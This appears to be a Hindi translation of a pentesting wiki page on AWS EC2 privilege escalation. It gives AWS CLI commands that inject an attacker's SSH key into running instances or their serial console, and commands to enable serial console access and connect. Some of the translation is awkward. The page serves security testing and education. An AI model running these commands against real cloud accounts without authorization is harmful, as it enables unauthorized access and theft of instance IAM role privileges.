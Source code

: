 
### `!autoscaling`

**`ec2:CreateLaunchTemplate`** और **`autoscaling:CreateAutoScalingGroup`** अनुमतियों का सेट **आईएएम भूमिका में उन्नयन करने के लिए पर्याप्त नहीं है** क्योंकि उन्हें लॉन्च कॉन्फ़िगरेशन या लॉन्च टेम्पलेट में निर्दिष्ट भूमिका को संलग्न करने के लिए **आपको अनुमतियाँ `iam:PassRole` और `ec2:RunInstances`** की आवश्यकता है (जो एक जाना माना प्रिवेस्क है)।

### `ec2-instance-connect:SendSSHPublicKey`

एक हमलावर जिसके पास अनुमति है **`ec2-instance-connect:SendSSHPublicKey`** एक एसएसएच कुंजी को एक उपयोगकर्ता के पास जोड़ सकता है और इसका उपयोग करके इसे उपयोग कर सकता है (अगर उसके पास इंस्टेंस का एसएसएच एक्सेस है) या उन्नयन करने के लिए।
```bash
aws ec2-instance-connect send-ssh-public-key \
--instance-id "$INSTANCE_ID" \
--instance-os-user "ec2-user" \
--ssh-public-key "file://$PUBK_PATH"
```
**संभावित प्रभाव:** चल रहे इंस्टेंसेज के साथ जुड़े EC2 IAM रोल्स में सीधा प्रिविलेज इस्केलेशन।

### `ec2-instance-connect:SendSerialConsoleSSHPublicKey`

एक हमलावर जिसके पास **`ec2-instance-connect:SendSerialConsoleSSHPublicKey`** अनुमति है, **एक एसएसएच कुंजी को एक सीरियल कनेक्शन में जोड़ सकता है**। यदि सीरियल सक्षम नहीं है, तो हमलावर को इसे सक्षम करने के लिए **`ec2:EnableSerialConsoleAccess` अनुमति की आवश्यकता है**।

सीरियल पोर्ट से कनेक्ट करने के लिए आपको भी मशीन के अंदर के एक उपयोगकर्ता के उपयोगकर्ता नाम और पासवर्ड को जानने की **आवश्यकता है**।

{% code overflow="wrap" %}
```bash
aws ec2 enable-serial-console-access

aws ec2-instance-connect send-serial-console-ssh-public-key \
--instance-id "$INSTANCE_ID" \
--serial-port 0 \
--region "eu-west-1" \
--ssh-public-key "file://$PUBK_PATH"

ssh -i /tmp/priv $INSTANCE_ID.port0@serial-console.ec2-instance-connect.eu-west-1.aws
```
{% endcode %}

यह तरीका प्राइवेस्क के लिए उपयोगी नहीं है क्योंकि इसे एक उपयोक्ता नाम और पासवर्ड की आवश्यकता होती है ताकि इसका शोध किया जा सके।

**संभावित प्रभाव:** (अत्यधिक अप्रमाणिक) चल रहे इंस्टेंसेज के संलग्न EC2 IAM भूमिकाओं को सीधे प्राइवेस्क करना।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

